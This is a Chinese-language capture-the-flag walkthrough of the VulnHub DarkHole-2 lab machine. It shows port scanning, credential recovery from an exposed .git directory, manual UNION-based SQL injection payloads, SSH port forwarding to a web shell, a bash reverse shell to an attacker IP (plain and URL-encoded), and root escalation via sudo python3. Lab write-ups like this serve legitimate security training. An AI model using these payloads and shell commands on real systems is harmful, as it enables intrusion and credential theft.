

靶机地址：https://www.vulnhub.com/entry/darkhole-2,740/

## 信息收集

```
 sudo nmap -sT --min-rate 10000 -p- 172.16.31.18 -oA nmapscan/ports
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 10:52 CST
Nmap scan report for 172.16.31.18
Host is up (0.0019s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:84:26:74 (VMware)
```

详细信息扫描

```bash
──(bypass㉿kali)-[~/VulnHub/DarkHole-2]
└─$ sudo nmap -sT -sC -sV -O -p22,80 172.16.31.18 -oA nmapscan/detail
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 10:53 CST
Nmap scan report for 172.16.31.18
Host is up (0.00026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 57:b1:f5:64:28:98:91:51:6d:70:76:6e:a5:52:43:5d (RSA)
|   256 cc:64:fd:7c:d8:5e:48:8a:28:98:91:b9:e4:1e:6d:a8 (ECDSA)
|_  256 9e:77:08:a4:52:9f:33:8d:96:19:ba:75:71:27:bd:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: DarkHole V2
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   172.16.31.18:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: i changed login.php file for more secure 
MAC Address: 00:0C:29:84:26:74 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

扫出一个`.git`目录

目录扫描

```bash
                                                                                                                                                                        
┌──(bypass㉿kali)-[~/VulnHub/DarkHole-2]
└─$ gobuster dir -u http://172.16.31.18 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.31.18
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/style                (Status: 301) [Size: 312] [--> http://172.16.31.18/style/]
/js                   (Status: 301) [Size: 309] [--> http://172.16.31.18/js/]
/config               (Status: 301) [Size: 313] [--> http://172.16.31.18/config/]
/server-status        (Status: 403) [Size: 277]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```

发现一个`config`目录

## WEB渗透

访问80，跟该系列第一个靶机页面大差不差


访问config目录，却发现是空的


### git信息泄露



通过`GitHack`工具得到敏感数据


发现数据库账密


> root:darkhole_2

试着拿账密去ssh连接。如果直接是root，那就直接完结撒花，但是......


把`.git`目录下载下来，看看git提交的日志

```bash
wget -r http://172.16.31.18/.git/

# -r 递归下载
```


发现在`a4d900a`这个记录里写着login.php带了一个默认凭证。

使用`git reset --hard [log hash]`恢复到指定版本号，`--hard`参数撤销工作区中所有未提交的修改内容，将暂存区与工作区都回到上一次版本，并删除之前的所有信息提交。

```bash
git reset --hard a4d900a
```


查看login.php的内容


然后就看到了邮箱账号密码（lush@admin.com/321），然后在网页端登录。

也可以使用`git diff`可以获得当前工作目录和上次提交与本地索引的差距，也就是可以获取本次你在什么地方修改了代码。


### SQL手工注入

登录后如下图，网址中id可能参数存在SQL注入


加上一个单引号后，页面报错，说明应该存在SQL注入漏洞


手工注入

判断列数

```
id=1' ORDER BY 5 --+
id=1' ORDER BY 6 --+
id=1' ORDER BY 7 --+
# 前面正常显示，当为7时页面空白，所以可以确定列数为6
```


构造`UNION`语句，确定哪些列的数据被显示在页面中。

```bash
?id=' and 1=2 UNION SELECT 1,2,3,4,5,6 --+
```


可以看到，2、3、5、6列被显示在页面上。然后将对应的数字换成SQL查询语句从而获取数据库中的信息。

获取当前数据库名`darkhole_2`

```
?id=' and 1=2 UNION SELECT 1,database(),3,4,5,6 --+
```


获取表名,有两个表`ssh,users`

```bash
?id=' and 1=2 UNION SELECT 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema='darkhole_2' --+
```


获取ssh表中字段，`id,pass,user`

```BASH
?id=' and 1=2 UNION SELECT 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_schema='darkhole_2' and table_name='ssh' --+
```


得到账号`jehad`和密码`fool`，然后利用ssh就可以登录到jehad账户。

```bash
?id=' and 1=2 UNION  SELECT 1,pass,user,4,5,6 FROM ssh--+
```


### SSH连接获取低权限


查看能远程登录的用户 有哪些


查看计划任务


可以看到运行了一个php服务器在9999端口上，用户为losy，我们可以尝试去看一下原代码。


### SSH本地转发

发现居然是个一句话木马，我们可以通过携带我们想要执行的命令的cmd参数访问这个链接就可以以losy的身份执行命令。不过这个链接只能本地访问，因为我们已经获取了目标靶机的一个用户，所以我们可以使用SSH的本地转发功能（SSH -L）。

这个功能是在本地监听一个端口，但该端口的连接被转发到远程主机的特定端口。相当于把远程端口映射到本地，即“将远程端口放在本地”。如下例子将监听本地9999端口，任何访问9999的客户端，都相当于远程访问example.com 的80端口，但是流量是通过 remote.server 的，并且所有流量都被加密。

```ruby
ssh -L 0.0.0.0:9999:example.com:80 user@remote.server
```

还有一种变体：目标主机与代理主机可以是同一台主机，即将remote.server服务映射到本地：

```sql
ssh -L 0.0.0.0:9999:127.0.0.1:6379 user@remote.server
```

我们使用这个命令将目标靶机的本地9999映射到本地9999端口。

```kotlin
ssh -L 9999:127.0.0.1:9999 jehad@172.16.31.18
```


然后我们在浏览器中访问9999端口，传入cmd参数


可以看到，用户为losy，我们可以反弹一个losy的shell

```bash
bash -c 'bash -i >& /dev/tcp/172.16.31.17/9000 0>&1'
```

进行url编码


```
%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%37%32%2e%31%36%2e%33%31%2e%31%37%2f%39%30%30%30%20%30%3e%26%31%27
```

利用`nc -nvlp 9000`在本地开启监听，然后将上面命令作为cmd参数访问，从而拿到shell，然后对shell进行升级

```rust
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


## 提权root

在losy用户的.bash_history文件里，可以发现他的密码 `gang`


然后查看sudo权限，发现可以以root身份执行python3


那我们就可以以超级管理员身份开启一个shell

```rust
sudo python3 -c 'import os; os.system("/bin/bash")'
```


## 参考

- [如何利用.git文件夹下载整个网站泄漏的源码](https://www.t00ls.cc/articles-37327.html)
- [DarkHole_2 Walkthrough – Vulnhub – Writeup](https://nepcodex.com/2021/09/darkhole_2-walkthrough-vulnhub-writeup/)

